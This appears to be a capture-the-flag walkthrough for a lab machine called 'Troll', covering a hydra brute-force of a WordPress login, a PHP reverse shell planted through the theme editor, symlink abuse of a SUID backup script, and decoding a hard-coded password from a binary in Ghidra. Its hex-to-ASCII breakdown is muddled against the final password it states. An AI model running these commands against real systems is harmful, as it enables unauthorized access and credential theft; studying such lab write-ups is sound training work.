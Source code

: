
## Progression Tree (Exploit Flow)

![Progression Tree](Assets/Pasted%20image%2020250501075251.png)


## Detailed Steps for PWNING the Troll Machine

### STEP 1: Brute Forcing the WP login page


![Login](Assets/Pasted%20image%2020250501081101.png)

- It is essential to find valid username in order to brute force the login page.
- This can be achieved with variety of ways: 
	
	- Using a `json` endpoint
	
    ![JSON Enumeration](Assets/Pasted%20image%2020250501081558.png)
	- Brute forcing the username is possible via the login form as the response varies for a valid vs an invalid account.
		- For an user that does not exist this the response we get the following error.
      ![Invalid user error](Assets/Pasted%20image%2020250501081824.png)

		- Using default/common usernames we can make a guess for a valid user.
      ![Valid Guess](Assets/Pasted%20image%2020250501082054.png)

- Now that we know a valid user we are going use hydra to bruteforce the login page
- Following is how the hydra command look like
	- `hydra -l admin -P /usr/share/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt 10.10.104.139 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:ERROR" -v`
	- As you may have noticed instead of `rockyou.txt` list we are using `2023-200_most_used_passwords.txt`, this is because the `rockyou.txt` is massive and will take a lot time so i always prefer to start with smaller lists first.
	
	![Hydra Success](Assets/Pasted%20image%2020250501082753.png)
- And within couple of minutes we have our credentials which we will be using to login the admin panel.
- Credentials: admin:theworldinyourhand

### STEP 2: Getting RCE Via PHP SHELL Through ADMIN PANEL

- After logging in admin panel hover over tools, and select `Theme File Editor`.

	![Payload](Assets/Pasted%20image%2020250501180423.png)

- After which select `Theme Functions`.
- From `revshell.com` I will copy the PHP payload (PHP PentestMoneky) to get RCE.
	
	![Paste Shell](Assets/Pasted%20image%2020250501180518.png)

	![Netcat Listener](Assets/Pasted%20image%2020250501180639.png)

- Using netcat let's up open a listener to catch the shell.
	![Shell Access](Assets/Pasted%20image%2020250501180853.png)

	(P.S Using rlwrap will allow you to cycle through commands that you give the target machine and will make you life a whole lot easier :D)
- Once we click `Update File` button in the `Edit Theme Panel` , we will get the shell.
	![Important Note](Assets/Pasted%20image%2020250501181145.png)

### STEP 3: Enumeration

- We see that their are two users on the Machine. 
	- Cypher
	- Robert
- We can't enter Robert's home directory but we can enter Cypher's home directory where we find an interesting file which has following content. File name `important.txt`
	- ![Hidden Password](Assets/Pasted%20image%2020250501181524.png)

- According to file Cypher has a habit of hiding password at random places across the system. Let's do some manual enumeration to find the password.
- In  `/etc` folder we find that there exists and unusual folder named `i` inside which following folders exists without any other file.
	![User Switch Success](Assets/Pasted%20image%2020250501181708.png)

- Interesting enough it does look like some password.
- Let's try switching user to Cypher with this password.
	- `ilikegames123`
	![Symlink](Assets/Pasted%20image%2020250501183044.png)
- And sure enough we were able to login as user Cypher.
- This gives us the first flag `user.txt` which inside Cypher's home directory.
(P.S You will need to make the shell interactive by using the following command `python3 -c 'import pty; pty.spawn("/bin/bash");'`)


### STEP 4: Analyzing and Abusing the backup script via Symlink

- According to the `important.txt` file there should be a backup script with suid bit which might be able to exploit to impersonate Robert.
- The `/opt/backup_scripts/backup ` script allows user to create a backup of any file inside `/var/log/` folder. It accepts path as argument and trying to break seems futile since there is input filtering in the script.
- But interestingly enough there is folder named `cypher` in `/var/log/` directory , which is owned by Cypher. 
- As cypher we can enter Robert's home directory and see an interesting binary `mysql_test_script` which we are not allowed to access.

- To exploit the backup script we are going to create a symlink in `/var/log/cypher/` folder which will be pointing towards `mysql_test_script`.
	![Backup Triggered](Assets/Pasted%20image%2020250501183152.png)
	Command: `ln -sf /home/robert/mysql_test_script /var/log/cypher/script`
	
- After which we can run backup script to create a backup of the file in `/backup` folder
	![Python Server](Assets/Pasted%20image%2020250501183901.png)

### STEP 5: Using Ghidra to analyze the binary file

- On the target machine we will start a python server inside the `/backup` folder. Make sure you are in the `/backup` folder and execute the following command.
	![Wget Download](Assets/Pasted%20image%2020250501183951.png)
	Command: `python -m http.server 9999 &`
(P.S Adding & will make sure that shell remains usable otherwise you will have to open a new connection )
- And on the attacker machine based on the file name execute the following 
	![Ghidra Analysis](Assets/Pasted%20image%2020250501184450.png)
	Command: `wget http://10.10.147.108:9999/script_backup_20250501_130009`
(Or just visit http://10.10.147.108:9999/ in your browser and click on the file to download it.)

- Inside Ghidra we find the script is fairly simple. Going to the main function we we can see the command being used and make an educated guess what the password is being stored as.
	 ![Root Access](Assets/Pasted%20image%2020250501185701.png)

- Given: 
- local_28 = 0x6e656666306d6131
- local_20 = 0x39303165766973
- uStack_19 = 0x242439

- Step-by-Step Breakdown: 
 
 - local_28 = 0x6e656666306d6131
 - This hexadecimal number 0x6e656666306d6131 can be broken down into a sequence of 8 bytes:
 - Hex to ASCII Conversion: 
	 - 0x6e → n 
	 - 0x65 → e 
	 - 0x66 → f
	 - 0x66 → f
	 - 0x30 → 0 
	 - 0x6d → m
	 - 0x61 → a
	 - 0x31 → 1
 - This results in the ASCII string neffoma1
 
 - local_20 = 0x39303165766973 
 - This hexadecimal number 0x39303165766973 can be broken down into 8 bytes: 
 - Hex to ASCII Conversion: 
	 - 0x39 → 9 
	 - 0x30 → 0 
	 - 0x31 → 1 
	 - 0x65 → e 
	 - 0x76 → v 
	 - 0x69 → i 
	 - 0x73 → s

-  uStack_19 = 0x242439 
- This hexadecimal number 0x242439 can be broken down into 3 bytes:
- Hex to ASCII Conversion:
- 0x24 → $ 
- 0x24 → $ 
- 0x39 → 9 
- This results in the ASCII string `$$9`.

- We get the final password: `1am0ffens1ve1099$$`.

- Using the above credentials we were successfully able to login as the user `robert`
- We also find that user `robert` can execute commands as root. Hence we can get root.txt from /root directory now.
- Command : `sudo -i` will make us the root.

	![[Pasted image 20250501185701.png]]

- AND THE TROLL MACHINE HAS BEEN PWNED!
